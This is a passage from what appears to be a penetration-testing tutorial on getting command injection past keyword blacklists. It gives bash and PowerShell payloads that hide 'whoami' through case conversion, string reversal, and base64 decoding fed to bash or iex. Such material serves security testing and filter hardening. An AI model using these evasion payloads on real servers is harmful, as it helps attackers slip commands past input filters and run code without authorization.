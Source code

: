 We can do the same in Linux, except that this time it's case sensitive. "But how can we do the same trick if Linux is case sensitive ?", well, we can use our word with upper and lower cases (non blacklisted) and replace all the upper cases by lower cases in one command like :

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

### Reverse String

Same as upper and lower case, we can reverse a command so the server doesn't recognise it. 
On Linux, we will revert our command with the following line :

```bash
echo 'whoami' | rev
```

We grab it and put it in our payload that we are going to send to the server. The payload looks like :

```bash
$(rev<<<'imaohw')
```

On a Windows machine, we would do the same in Powershell. First we need to revert the string :

```bash
"whoami"[-1..-20] -join ''
```

And then put it in the payload :

```bash
iex "$('imaohw'[-1..-20] -join '')"
```
### Encoding

Same as before, we first create our modified command. Here we are going to base64 it.

```bash
echo -n 'whoami' | base64
```

Then we put it in our payload like this :

```bash
bash<<<$(base64 -d<<<d2hvYW1p)
```

On a Windows machine, we can do the same on Powershell :

```bash
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

And the final payload will be :

```bash
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```
